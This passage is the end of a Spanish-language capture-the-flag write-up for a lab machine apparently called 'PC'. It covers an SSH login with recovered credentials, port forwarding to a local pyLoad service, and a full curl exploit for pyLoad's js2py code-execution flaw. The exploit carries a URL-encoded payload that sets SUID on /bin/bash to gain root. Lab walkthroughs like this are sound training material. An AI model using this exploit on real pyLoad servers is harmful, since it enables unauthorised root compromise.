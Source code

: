Ahora solo queda conectarnos a ssh con las credenciales que obtuvimos

**usr:** sau

**passwd:** HereIsYourPassWord1431

Y ya tenemos la primera flag:

```
sau@pc:~$ cat user.txt 
9346084c975a3b22536e1c6ef783075f
```

## Escalada

Empezare usando linpeas para ver que nos reporta, lo mas interesante es que en la maquina victima esta corriendo el puerto 8000:

![](/assets/img/PC/8.png)

Y como se imaginan, debemos de hacer port forwarding, ejecutamos este comando en nuestra maquina:

```ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214```

Una vez dentro, veremos una pagina de pyLoad, buscando en google por vulnerabilidades, existe una ejecucion arbitraria de codigo que abusa de la funcion js2py, aca hay un post que habla sobre ello: [https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)


Para conseguir root, debemos de asignarle permisos SUID a bash, esto lo hacemos con:

```
curl -i -s -k -X $'POST' \
-H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
--data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' \
$'http://127.0.0.1:8000/flash/addcrypted2'
```

![](/assets/img/PC/9.png)

Y listo, esto es todo, gracias por leer ❤


